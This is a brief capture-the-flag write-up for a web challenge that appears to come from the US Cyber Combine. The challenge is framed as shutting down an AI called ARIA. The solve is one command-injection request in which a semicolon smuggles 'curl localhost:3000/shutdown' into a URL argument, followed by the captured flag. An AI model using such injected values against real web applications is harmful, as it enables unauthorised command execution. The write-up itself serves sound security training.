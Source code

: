 # # Control Panel [Web]

### 150

Agent, we've identified what appears to be ARIA's control panel. Luckily there's no authentication required to interact with it. Can you take down ARIA once and for all?

[https://uscybercombine-s4-control-panel.chals.io/](https://uscybercombine-s4-control-panel.chals.io/)

 [control-panel.zip](https://ctfd.uscybergames.com/files/d610c5bfacbc496adf06f2207ee24a34/control-panel.zip?token=eyJ1c2VyX2lkIjoxNzE0LCJ0ZWFtX2lkIjpudWxsLCJmaWxlX2lkIjoyNzV9.ZlpSzQ.bt7nY2pjRlgm54pPl5WNI_8grI0)

## Solve

```

```

```
https://uscybercombine-s4-control-panel.chals.io/?command=destroy_humans&arg=check_status;curl%20-s%20localhost:3000/shutdown

```

```
{"status": "ready to destroy"}{"status": "shutting down..."}{"status": "SIVBGR{g00dby3_ARI4}"}
```